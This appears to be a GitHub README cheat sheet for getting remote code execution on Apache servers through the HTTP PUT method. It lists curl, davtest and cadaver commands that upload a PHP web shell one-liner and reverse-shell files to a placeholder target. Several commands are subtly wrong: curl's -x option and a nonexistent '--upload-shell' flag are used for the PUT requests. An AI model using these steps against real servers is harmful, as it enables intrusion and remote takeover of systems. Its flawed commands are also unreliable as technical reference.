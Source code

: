 # Explioting-Apache-PUT
Obtaining code execution by abusing the apache PUT HTTP method

Testing if PUT is enabled via curl
```
curl -x OPTIONS http://10.10.10.10/uploads/ -v

// Replace IP & URI 
```

Testing if PUT is enabled via Davtest
```
davtest -url http://10.10.10.10/uploads/

// Replace IP & URI 
```


Explioting PUT for RCE - Method 1
```
curl -v -x PUT -d '<?php system($_GET['c']);?>' http://10.10.10.10/rev.php

// Replace IP

RCE URL: http://10.10.10.10/rev.php?c=id

```

Explioting PUT for RCE - Method 2
```
curl --upload-shell shell.php -H "Expect: *" http://10.10.10.10/test/shell.php

// Replace IP
// Ensure that the reverse shell (shell.php) is inside your current working directory
// Upload the shell to the target IP:URL where PUT is enabled

```

Explioting PUT for RCE - Method 3
```
cadaver http://10.10.10.10/test/
put shell.php

// Replace IP
// Ensure that the reverse shell (shell.php) is inside your current working directory
// Upload the shell to the target IP:URL where PUT is enabled

```
